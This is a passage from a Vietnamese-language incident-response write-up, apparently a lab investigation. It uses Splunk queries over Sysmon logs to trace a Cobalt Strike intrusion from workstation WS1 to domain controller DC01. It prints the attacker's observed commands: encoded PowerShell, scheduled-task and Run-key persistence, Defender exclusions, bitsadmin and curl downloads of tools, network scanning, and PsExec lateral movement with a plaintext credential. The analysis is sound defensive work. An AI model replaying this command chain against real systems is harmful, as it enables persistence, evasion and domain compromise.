| table _time TargetFilename Hashes
```


Lúc 2025-03-21 15:15:29, drop payload WindowsUpdaterFX.dll vào thư mục C:\Users\knixon\AppData\Local\Temp\
Hash của WindowsUpdaterFX.dll:
- MD5=735AB5713DB79516CF350265FA7574E5
- SHA256=9A02357D3091379C4A9568F6427C45554E48DAA910CF2F7BD871A9CF7F7B2CB4

Kết hợp với sự kiện kết nối tới externel IP quan sát được vừa rồi, nhiều khả năng payload này được tải từ 54.93.105.22:80


### 1.5 Process regsvr32.exe (PID = 8592) – khởi chạy bởi WScript.exe (PID = 1848) vào 2025-03-21 15:15:34

```spl
index=main host=WS1 earliest="03/21/2025:15:15:30" EventCode=4689 process=*regsvr32.exe
| eval process_id=tonumber(process_id, 16)
| table _time process_name process_id
```


Process regsvr32.exe (PID = 8592) kết thúc vào lúc 15:15:35, gần như ngay lập tức sau khi khởi chạy

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:20" latest="03/21/2025:15:16:00" process_id=8592 OR SourceProcessId=8592 OR parent_process_id=8592
| stats count by EventCode
```

Thông kê các event sysmon liên quan đến process này trong khoảng thời gian thực thi
 
```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:20" latest="03/21/2025:15:16:00" process_id=8592 EventCode=11
| table _time Image TargetFilename

index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:20" latest="03/21/2025:15:16:00" process_id=8592 EventCode=29
| table _time Image TargetFilename Hashes

```




Lúc 15:15:35, `regsvr32.exe` drop hai tệp:
 
- `C:\Users\knixon\AppData\Local\Temp\Pancake.jpg.exe`: tệp mang tên đuôi kép `.jpg.exe`, vì windows mặc định ẩn phần mở rộng nên tệp hiện ra trong GUI như là 1 tệp ảnh jpg vô hại. Hash:
    - MD5: `5C215C4E29C8EC7FE1590517319C6ECA`
    - SHA256: `0BEF3A121BC1CADD69B27784616D1E112ADE2A82F961272EDDF7F7641A80CE15`
- `...\INetCache\IE\UK9B4KJM\OneDriveUpdater[1].exe`: đặt tên giả mạo một trình cập nhật OneDrive, drop trong cache của trình duyệt.

Ngoài ra, không ghi nhận process regsvr32 này có kết nối mạng (event Sysmon 3) trong thống kê ở trên. Giả thuyết ở đây là cả 2 payload nhúng sẵn trong tệp DLL  đăng ký qua regsvr32 được decode/decrypt trong lúc thực thi rồi drop ra ổ đĩa

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:20" latest="03/21/2025:15:16:00" parent_process_id=8592
| table _time user IntegrityLevel process_id CommandLine
```

 
Spawn ra 6 process con:
 
| PID | Lệnh | Giải thích |
|---|---|---|
| 10536 | `cmd /c powershell -ExecutionPolicy Bypass -NoP -W Hidden -EncodedCommand ...` | `Start-Process $env:LOCALAPPDATA\Temp\Pancake.jpg.exe`: khởi chạy payload vừa drop |
| 10040 | `schtasks /Create /RU "NT AUTHORITY\SYSTEM" /SC ONLOGON /TN "WiindowsUpdate" /TR "C:\Windows\System32\regsvr32.exe /s %localappdata%\Temp\WindowsUpdaterFX.dll"` | Tạo scheduled task với tên WiindowsUpdate (attacker thừa 1 chữ i) chạy lại dưới danh tính SYSTEM khi user đăng nhập |
| 1432 | `cmd /c powershell ... -EncodedCommand JABvAGIAagBTAG...` | `$objShell.RegWrite("HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdater", "wscript.exe %LOCALAPPDATA%/Temp/F6w1S48.vbs", "REG_SZ")`: Tạo Run key trong hive HKCU (chỉ có tác dụng với user knixon) với tên WindowsUpdater, value là 1 câu lệnh thực thi payload F6w1S48.vbs  |
| 5380 | `cmd /c powershell ... -EncodedCommand` | `Add-MpPreference -ExclusionPath "%LOCALAPPDATA%/Temp"`: chỉnh cấu hình Window Defender yêu cầu Defender skip quét các items trong thư mục Temp của user |
| 432 | `cmd /c powershell ... -EncodedCommand` | `Add-MpPreference -ExclusionPath "%APPDATA%/Microsoft"`: chỉnh cấu hình Window Defender yêu cầu Defender skip quét các items trong thư mục AppData/Microsoft |
| 10856 | `cmd /c powershell ... -EncodedCommand` | `Add-MpPreference -ExclusionPath "C:\ProgramData\Microsoft\ssh"`: chỉnh cấu hình Window Defender yêu cầu Defender skip quét các items trong thư mục C:\ProgramData\Microsoft\ssh |
 
 
Hai lệnh `schtasks /Create /RU "NT AUTHORITY\SYSTEM"` và `Add-MpPreference -ExclusionPath` đều cần quyền admin, trong khi cả 6 process này chạy ở integrity level = Medium, kiểm chứng thêm với event 4698 và 5007:
 
```spl
index=main host=WS1 earliest="03/21/2025:15:15:00" EventCode=4698
| table _time user TaskName TaskContent
```

Chưa ghi nhận task WiindowsUpdate được ghi nhận tạo thành công bởi event 4698 

```spl
index=main host=WS1 source="XmlWinEventLog:Microsoft-Windows-Windows Defender/Operational"
```

Trên WS1, log Window defender không chứa bất kì event nào nên ta chưa thể xác nhận liệu attacker đã thành công thay đổi cấu hình window defender với event id 5007
 
### 1.6 Process Pancake.jpg.exe (PID = 10292) - khởi chạy lúc 15:15:3 với IntegrityLevel = Medium
```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:30" process_id=10292 OR SourceProcessId=10292 OR parent_process_id=10292
| stats count by EventCode
```

Thống kê các event sysmon liên quan đến process này

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:30" process_id=10292 EventCode IN (17, 18)
| table _time EventDescription PipeName
```

Process này tạo và kết nối tới pipe MSSE-8859-server lần lượt vào 2025-03-21 15:15:39 và 2025-03-21 15:15:41. Trong đó, pipe name dạng MSSE-###\#-server (tên mặc định của bộ công cụ Artifact Kit trong Cobalt Strike) thường được sử dụng bởi cobalt strike beacon nhằm tải payload vào memory, giao tiếp giữa các beacon khác. Attacker có thể đổi tên trong Malleable C2 profile nhưng ở đây hắn sử dụng tên mặc định.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:30" process_id=10292 EventCode=3
| bin _time span=10m
| stats count by _time DestinationIp DestinationPort
```

Duy trì beacon tới 54.93.105.22:80 khoảng 10 requests mỗi 10 phút trong khoảng hơn 1h

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:15:30" parent_process_id=10292
| table _time user IntegrityLevel process_id CommandLine
```

Spawn ra các process thực hiện Discovery:
| Giờ | Lệnh | Mục đích |
|---|---|---|
| 15:17:41 | `cmd /C whoami` | Kiểm tra user hiện tại |
| 15:18:41 | `cmd /C ipconfig /all` | Kiểm tra cấu hình mạng của máy |
| 15:20:42 | `cmd /C systeminfo` | Kiểm tra thông tin hệ thống của máy |
| 15:21:46 | `cmd /C net group "domain admins" /domain` | Liệt kê toàn bộ thành viên thuộc group Domain Admins |
| 15:22:46 | `cmd /C net localgroup administrators` | Liệt kê toàn bộ thành viên thuộc group Local Admins |

### 1.7 Process Pancake.jpg.exe (PID = 10292) - khởi chạy lúc 15:15:3 với IntegrityLevel = High

Lúc **15:23:21**, `Pancake.jpg.exe` được khởi chạy lần nữa với PID **6320**, lần này chạy ở IntegrityLevel = High tức thừa hưởng elevated token từ phiên login của user knixon. Process tree lúc trước cho biết parent của process này là explorer.exe, dấu hiệu cho thấy nó được thực thi thông qua GUI. Giả thuyết ở đây là user bị đánh lừa bởi bề ngoài hiển thi của tệp, 1 ảnh jpg, click vào binary ngụy trang, cửa sổ UAC hiện lên và user click yes cho phép process chạy với elevated token

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:23:00" process_id=6320 EventCode=3
| bin _time span=10m
| stats count by _time DestinationIp DestinationPort
```


Tiếp tục duy trì beacon tới 54.93.105.22:80 khoảng 10 requests mỗi 10 phút trong hơn 1h tương tự như instance Pancake.jpg.exe lúc trước

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:23:00" process_id=6320 EventCode=11
| table _time TargetFilename

index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:23:00" process_id=6320 EventCode=29
| table _time TargetFilename Hashes
```



Vào 2025-03-21 16:03:20, drop công cụ PsExec64.exe vào thư mục Temp trong profile của user hiện tại, hash của tệp đã xác nhận công cụ này:

PsExec là một công cụ dòng lệnh nhẹ thuộc bộ sysinternals, không cần cài đặt trên máy đích, giúp quản trị viên hệ thống chạy tiến trình từ xa trên nền tảng Windows. Công cụ này thường bị lạm dụng bởi attacker cho mục đích di chuyển ngang

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:23:00" process_id=6320 EventCode IN (17, 18)
| table _time EventDescription PipeName
```

Vào 2025-03-21 15:23:21 và 2025-03-21 15:23:22, process Pancake.jpg.exe (PID =6320) lần lượt tạo và kết nối tới pipe MSSE-5028-server, sau đó, vào 2025-03-21 16:04:21, khoảng 30 phút sau, kết nối tới pipe postex_2198. Trong đó, pipe dạng postex_#### thường được các cobalt strike beacon sử dụng cho các hoạt động post-exploitation. Trong hoạt động này, beacon cha sẽ spawn ra các beacon con (thường dưới dạng 1 process rundll32.exe bị chèn code), 2 beacon sẽ giao tiếp/trao đổi dữ liệu thông qua 1 named pipe. Ta sẽ check xem process nào tạo pipe postex này:

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:23:00" EventCode IN (17, 18) "postex_2198"
| table _time Image process_id EventDescription PipeName
```

Ngay vào 2025-03-21 16:04:20, ghi nhận process rundll32.exe (2676) mà được spawn ra bởi chính process Pancake.jpg.exe (PID = 6320) này đã tạo pipe postex_2198 để giao tiếp với process cha. Hành vi này phù hợp với giả thuyết rằng Pancake.jpg.exe là beacon cha sinh ra các beacon con, inject job hậu khai thác vào và đọc kết quả qua named pipe.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:23:00" SourceProcessId=6320 EventCode=10
| table _time GrantedAccess TargetImage CallTrace
```

Vào 2025-03-21 16:04:20, ghi nhận process Pancake.jpg.exe (PID = 6320) nhận handle với access mask `0x1fffff` (PROCESS_ALL_ACCESS) tới các process `cmd.exe` và `rundll32.exe` mà nó sinh ra, đây chỉ là handle trả về từ việc gọi winapi `CreateProcess`. `CallTrace` bắt đầu từ vùng nhớ `UNKNOWN` cho thấy dấu hiệu code được chạy trong private memory không map tới bất kì module nào. Ngoài ra, trong log sysmon không ghi nhận event id 8 – CreateRemoteThread nào để xác nhận việc inject code.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:23:00" parent_process_id=6320 EventCode=1
| table _time process_id CommandLine CurrentDirectory
```
Spawn ra các process:
| Giờ | PID | Lệnh | Giải thích |
|---|---|---|---|
| 15:26:22 | 8296 | `bitsadmin /transfer "d" https://www.softperfect.com/download/files/netscan_portable.zip Netscan.zip` | Lạm dụng bitsadmin (LOLBIN) tải công cụ Netscan vào thư mục làm việc hiện tại |
| 15:27:28 | 11572 | `bitsadmin /transfer "d" https://www.softperfect.com/download/files/netscan_portable.zip %%LOCALAPPDATA%%\Temp\Netscan.zip` | Thử tải lại, chỉ rõ output path là %LOCALAPPDATA%\Temp\Netscan.zip  |
| 15:31:39 | 5792 | `cmd /C dir` | Liệt kê các items trong thư mục hiện tại nhằm kiểm tra xem đã tải thành công chưa  |
| 15:37:39 | 6000 | bitsadmin /transfer "d" http://www.softperfect.com/download/files/netscan_portable.zip %%LOCALAPPDATA%%\Temp\Netscan.zip | Thử tải lại nhưng đổi sang giao thức HTTP |
| 15:42:49 | 10856 | `powershell Expand-Archive -LiteralPath '%LOCALAPPDATA%\Temp\Netscan.zip' -DestinationPath %LOCALAPPDATA%\Temp\` | Spawn ra 1 instance powershell giải nén Netscan.zip |
| 15:43:59 | 8600 | `%LOCALAPPDATA%\Temp\64-bit\netscan.exe /hide /range:10.10.11.1-10.10.255.255 /auto:results.xml` | Dùng công cụ netscan.exe scan ip trong khoảng 10.10.11.1-10.10.255.255 rồi ghi output ra tệp results.xml |
| 15:59:09 | 2096 | `bitsadmin /transfer "d" https://raw.githubusercontent.com/davehardy20/sysinternals/refs/heads/master/PsExec64.exe C:\Users\knixon\AppData\Local\Temp\PsExec64.exe` | Tải PsExec64.exe và đặt trong Temp (event code 11 trước đó đã xác nhận tệp tải thành công) |
| 16:02:20 | 10856 | `cmd /C dir` | Kiểm tra xem đã tải thành công chưa |
| 16:04:20 | 2676 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con |
| 16:06:21 | 10236 | `PsExec64.exe /accepteula \\10.10.11.170 -u financees.local\swhite -p "b<ZITx4h1" whoami` | Sử dụng PsExec thực thi lệnh whoami trên host DC01 (10.10.11.170), xác thực với credentials của user swhite |
| 16:08:31 | 10156 | `cmd.exe /C PsExec64.exe /accepteula \\10.10.11.170 -u financees.local\swhite -p "b&lt;ZITx4h1" hostname`| Thực thi lệnh `hostname` trên DC01 |
| 16:10:41 | 11688 | `PsExec64.exe \\financees.local -accepteula -s -c -f Pancake.jpg.exe` | Copy Pancake.jpg.exe sang $ADMIN (-c) và chạy binary này trên DC01 dưới tài khoản SYSTEM (-s). Do không cung cấp credentials nên psexec sẽ sử dụng credential của user đang chạy lệnh. Lệnh chỉ thành công nếu tài khoản đó có quyền admin trên máy đích. |
| 16:52:52 | 2332 | `powershell Remove-Item -Path "$env:LOCALAPPDATA\Temp\*" -Recurse -Force` | Xóa toàn bộ items trong Temp nhằm xóa dấu vết |


```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:15:23:00" EventCode=11 TargetFilename="C:\\Users\\knixon\\AppData\\Local\\Temp\\*"
| table _time TargetFilename
| sort _time
```


Event code 11 xác nhận các công cụ trên đã được tải về thành công, dựa vào timestamp ta thấy chỉ khi sử dụng giao thức HTTP thì attacker mới thành công tải về netscan

```spl
index=main host=WS1 earliest="03/21/2025:15:43:59" latest="03/21/2025:15:46:00" EventCode=5156
| table _time Application ProcessID Protocol direction SourceAddress SourcePort DestAddress DestPort  
| sort _time
```

Event id 5156 (The Windows Filtering Platform has permitted a connection) ghi nhận một lượng lớn kết nối outbound tới các IP trong khoảng IP quan sát thấy trong câu lệnh netscan trên với protocol được sử dụng là 1 (ICMP). Điều này cho thấy netscan đang thực hiện ICMP Ping Sweep nhằm discover các host nội bộ.    

### Process rundll32.exe (PID = 2676) – khởi chạy vào 2025-03-21 16:04:20
```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:16:04:00" process_id=2676 OR SourceProcessId=2676 OR parent_process_id=2676
| stats count by EventCode
```
Thống kê các event sysmon liên quan đến process này

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=WS1 earliest="03/21/2025:16:04:00" SourceProcessId=2676 EventCode=10
| table _time GrantedAccess TargetImage CallTrace
```


Vào 2025-03-21 16:04:21, process rundll32.exe (PID = 2676) mở handle truy cập vào process lsass.exe với access mask = 0x1010 (PROCESS_VM_READ | PROCESS_QUERY_LIMITED_INFORMATION) và calltrace bắt đầu từ unknown cho thấy dấu hiệu shellcode/reflective code chạy trong process này. Kết hợp với hành vi quan sát được bao gồm: tạo pipe postex giao tiếp với process Pancake.jpg.exe và process Pancake.jpg.exe sử dụng tài khoản của user swhite với password plaintext, rất có thể đây là bước thực hiện credential dumping.

Tuy nhiên, khoảng thời gian giữa việc ghi nhận sự kiện này và lần đầu sử dụng psexec với credentials của swhite vào 2025-03-21 16:06:21 chỉ là khoảng 2 phút để attacker có thể dump và crack một pass phức tạp như `b<ZITx4h1`, đồng thời, quá trình điều hoạt động của attacker trên DC01 sau đó cho thấy user swhite đã có phiên login trên DC01 từ tận 14:17, trước cả lúc initial access, attacker cũng thực thi các lệnh đáng ngờ trong phiên này. Giả thuyết đó là mật khẩu của user swhite đã bị lộ từ trước hoặc attacker hijack phiên RDP của user này


### Lateral movement sang DC01 từ WS1: event 4648
```spl
index=main source="XmlWinEventLog:Security" host=WS1 earliest="03/21/2025:16:06:00" EventCode=4648
| table _time SubjectUserName SubjectLogonId Target_User_Name TargetServerName IpAddress IpPort
```


Trên WS1, ghi nhận 2 event 4648 xác thực sử dụng explicit credentials (credential khác với credential chính hiện tại) tương ứng với 2 lệnh psexec thực thi whoami và hostname trên DC01

## Host 2: DC01 (10.10.11.170)
#### Process tree
```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host=DC01 earliest="03/21/2025:16:00:00" EventCode=1
| table _time user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time
```


Process tree:
```
		
                                                  [6068] C:\Windows\PSEXESVC.exe
2025-03-21 16:06:43  swhite   Medium  0x141b52d   └── [6712] "whoami"

                                                  [4520] C:\Windows\Pancake.jpg.exe
2025-03-21 16:12:04  SYSTEM   System  0x3e7       ├── [1356] C:\Windows\system32\cmd.exe /C whoami
2025-03-21 16:12:04  SYSTEM   System  0x3e7       │   └── [6276] whoami
2025-03-21 16:35:06  SYSTEM   System  0x3e7       ├── [6328] C:\Windows\system32\cmd.exe /C curl -o "C:\Users\swhite\AppData\Local\Temp\rclone-v1.69.1-windows-amd64.zip" https://downloads.rclone.org/v1.69.1/rclone-v1.69.1-windows-amd64.zip
